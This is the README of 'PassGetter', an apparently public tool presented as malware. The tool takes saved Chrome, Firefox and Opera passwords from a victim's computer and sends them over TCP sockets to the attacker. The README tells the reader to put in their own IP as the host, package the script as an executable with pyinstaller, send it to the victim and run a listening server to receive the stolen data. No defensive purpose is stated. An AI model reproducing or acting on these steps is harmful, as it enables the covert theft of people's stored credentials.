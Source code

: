 # PassGetter
Extract saved passwords of the browsers (i.e Chrome, Firefox, Opera) in the form of .db files and transfer em to the attacker via sockets

## How it works
[!alt text](https://o.remove.bg/uploads/b1f6f953-7727-4f8e-96fc-8a9f58be4408/image.png)

Basically when u send the file to the victim's computer it processes the system information (OS name) and then it searches for the path to the saved credentials of the browser (look into the code for more info) after that it extracts the data in a .db format and sends it to the attacker via TCP.

## How to make it work

Put the ip address to your machine in _main.py_  on line 82
```
host = "<Your_IP>"
```
Convert the _main.py_ to _.exe_ or a linux binary executable using pyinstaller
```
pyinstaller --path <Path to Python>\Python\Lib\site-packages\pywin32_system32 --onefile main.py
``` 
Then send it to the victim and run the _server.py_ inside the sockets folder
```
python3 server.py
```
and wait for the magic to happen

## Requirements

Make sure to install the requirements before converting it to _.exe_ or else the conversion will fail
```
pip install -r requirements.txt
```

## Credits

[Firefox Pass Extraction - unode] (https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py)
[Chrome Pass Extraction - Stackoverflow] (https://stackoverflow.com/questions/61099492/chrome-80-password-file-decryption-in-python)
